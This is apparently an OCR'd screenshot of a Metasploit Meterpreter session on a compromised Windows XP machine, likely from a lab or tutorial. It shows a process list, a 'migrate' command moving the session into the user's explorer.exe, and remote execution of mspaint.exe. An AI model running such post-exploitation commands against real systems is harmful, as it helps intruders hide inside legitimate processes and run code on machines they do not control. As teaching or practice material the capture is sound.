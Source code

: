     888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > migrate 1604
    [*] Migrating from 984 to 1604...
    [*] Migration completed successfully.
    meterpreter > execute -f mspaint.exe
    Process 1752 created.
